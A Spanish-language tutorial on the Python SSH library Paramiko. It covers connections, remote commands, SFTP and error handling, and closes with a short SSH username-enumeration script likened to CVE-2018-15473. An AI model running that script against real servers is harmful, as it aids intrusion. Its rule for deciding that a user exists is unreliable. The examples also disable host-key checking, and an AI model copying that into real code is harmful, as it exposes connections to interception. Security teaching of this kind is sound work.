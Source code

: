 
---

# PoC: Uso de la librería Paramiko en Python

En este documento exploraremos el uso de **Paramiko**, una librería de Python para interactuar con servidores SSH de forma programática. Mostraremos ejemplos prácticos de conexión, ejecución de comandos, transferencia de archivos y manejo de claves.

---

## 1. Instalación de Paramiko

Antes de usar Paramiko, debemos instalarla en nuestro entorno:

```bash
pip install paramiko
```

---

## 2. Conexión SSH básica

Para conectarnos a un servidor SSH necesitamos la **IP, el puerto, el usuario y la contraseña**. Creamos un cliente SSH, nos conectamos y ejecutamos comandos de manera remota.

```python
import paramiko

# Creamos el cliente SSH
cliente = paramiko.SSHClient()

# Aceptamos automáticamente claves desconocidas
cliente.set_missing_host_key_policy(paramiko.AutoAddPolicy())

# Conectamos al servidor
cliente.connect(hostname='192.168.1.74', port=22, username='usuario', password='contraseña')

# Ejecutamos un comando remoto
stdin, stdout, stderr = cliente.exec_command('uname -a')
print(stdout.read().decode())

# Cerramos la conexión
cliente.close()
```

**Explicación:**

- `SSHClient()` crea una instancia de cliente SSH.
    
- `set_missing_host_key_policy` evita errores por claves desconocidas.
    
- `exec_command` nos permite ejecutar comandos en el servidor remoto.
    

---

## 3. Autenticación con clave privada

En lugar de usar contraseña, podemos autenticarnos mediante una **clave privada RSA**.

```python
import paramiko

# Cargamos la clave privada
clave = paramiko.RSAKey.from_private_key_file('id_rsa')

cliente = paramiko.SSHClient()
cliente.set_missing_host_key_policy(paramiko.AutoAddPolicy())
cliente.connect(hostname='192.168.1.74', port=22, username='usuario', pkey=clave)

stdin, stdout, stderr = cliente.exec_command('whoami')
print(stdout.read().decode())

cliente.close()
```

**Explicación:**

- `from_private_key_file` carga nuestra clave RSA local.
    
- `pkey` se usa para autenticarnos en vez de contraseña.
    

---

## 4. Transferencia de archivos (SFTP)

Paramiko también nos permite transferir archivos de forma segura usando **SFTP**.

```python
import paramiko

cliente = paramiko.SSHClient()
cliente.set_missing_host_key_policy(paramiko.AutoAddPolicy())
cliente.connect('192.168.1.74', username='usuario', password='contraseña')

# Abrimos sesión SFTP
sftp = cliente.open_sftp()

# Subimos un archivo
sftp.put('archivo_local.txt', '/home/usuario/archivo_remoto.txt')

# Descargamos un archivo
sftp.get('/home/usuario/archivo_remoto.txt', 'archivo_descargado.txt')

# Cerramos SFTP y SSH
sftp.close()
cliente.close()
```

**Explicación:**

- `open_sftp()` inicia un canal SFTP para transferencia de archivos.
    
- `put()` sube archivos locales al servidor.
    
- `get()` descarga archivos del servidor a nuestra máquina.
    

---

## 5. Manejo de excepciones y logging

Siempre debemos manejar posibles errores de conexión o autenticación.

```python
import paramiko

cliente = paramiko.SSHClient()
cliente.set_missing_host_key_policy(paramiko.AutoAddPolicy())

try:
    cliente.connect('192.168.1.74', username='usuario', password='contraseña')
    stdin, stdout, stderr = cliente.exec_command('ls -la')
    print(stdout.read().decode())
except paramiko.AuthenticationException:
    print('Error de autenticación: usuario o contraseña incorrectos')
except paramiko.SSHException as e:
    print(f'Error en SSH: {e}')
finally:
    cliente.close()
```

**Explicación:**

- Capturamos `AuthenticationException` para detectar fallos de usuario/contraseña.
    
- Capturamos `SSHException` para errores generales de SSH.
    
- Cerramos siempre la conexión en el bloque `finally`.
    

---

## 6. Enumeración de usuarios (PoC simple)

Podemos usar Paramiko para **probar usuarios** de manera remota, similar a CVE-2018-15473.

```python
import paramiko
import socket

usuarios = ['root', 'admin', 'test']

for user in usuarios:
    sock = socket.socket()
    try:
        sock.connect(('192.168.1.74', 22))
        transporte = paramiko.Transport(sock)
        transporte.start_client()
        try:
            transporte.auth_publickey(user, paramiko.RSAKey.generate(2048))
        except paramiko.ssh_exception.AuthenticationException:
            print(f"[+] {user} existe (clave inválida)")
        except paramiko.ssh_exception.SSHException:
            print(f"[-] {user} no existe")
        transporte.close()
    except Exception as e:
        print(f"Error al conectar: {e}")
```

**Explicación:**

- Probamos varios usuarios enviando claves RSA generadas al vuelo.
    
- Si el usuario existe, el servidor responde con `AuthenticationException`.
    
- Si no existe, se lanza otra excepción.
    

---

## 7. Conclusión

Con Paramiko podemos:

- Conectarnos a servidores SSH con usuario/contraseña o clave.
    
- Ejecutar comandos remotos.
    
- Transferir archivos mediante SFTP.
    
- Manejar errores y excepciones.
    
- Realizar pruebas de enumeración de usuarios para pentesting.
    

Esta librería es muy poderosa, pero siempre debemos **usar estos conocimientos de forma ética y legal**.

---
